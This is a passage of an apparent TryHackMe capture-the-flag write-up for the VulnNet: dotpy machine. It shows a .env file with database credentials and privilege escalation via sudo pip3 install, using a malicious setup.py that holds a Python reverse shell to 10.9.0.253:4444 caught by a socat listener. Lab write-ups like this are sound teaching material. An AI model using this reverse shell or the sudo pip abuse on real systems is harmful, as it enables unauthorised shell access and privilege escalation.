 Found 3 users: `system-adm`, `web`, `manage`

**Found weird python file in `/opt`:**
```
web@vulnnet-dotpy:~/shuriken-dotpy$ ls -lah /opt
total 12K
drwxr-xr-x  2 root root 4.0K Dec 21  2020 .
drwxr-xr-x 23 root root 4.0K Dec 20  2020 ..
-rwxrwxr--  1 root root 2.1K Dec 21  2020 backup.py
```

**Found PostgreSQL credentials:**
```
web@vulnnet-dotpy:~/shuriken-dotpy$ cat .env
DEBUG=True
SECRET_KEY=S3cr3t_K#Key
DB_ENGINE=postgresql
DB_NAME=appseed-flask
DB_HOST=localhost
DB_PORT=5432
DB_USERNAME=appseed
DB_PASS={Redacted}
```

**Armed with above information, we can escalate to user `system-adm` via `sudo /usr/bin/pip3 install *`.**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo), we can execute the following commands:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227235925.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
```

```
web@vulnnet-dotpy:~/shuriken-dotpy$ cd /dev/shm
web@vulnnet-dotpy:/dev/shm$ mkdir privesc;cd privesc
web@vulnnet-dotpy:/dev/shm/privesc$ cat << EOF > setup.py
cat << EOF > setup.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(("10.9.0.253",4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> import pty
> pty.spawn("/bin/bash")
> EOF
web@vulnnet-dotpy:/dev/shm/privesc$ sudo -u system-adm /usr/bin/pip3 install .
Processing /dev/shm/privesc
```

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ ^C
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ whoami;hostname;id;ip a
system-adm
vulnnet-dotpy
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
```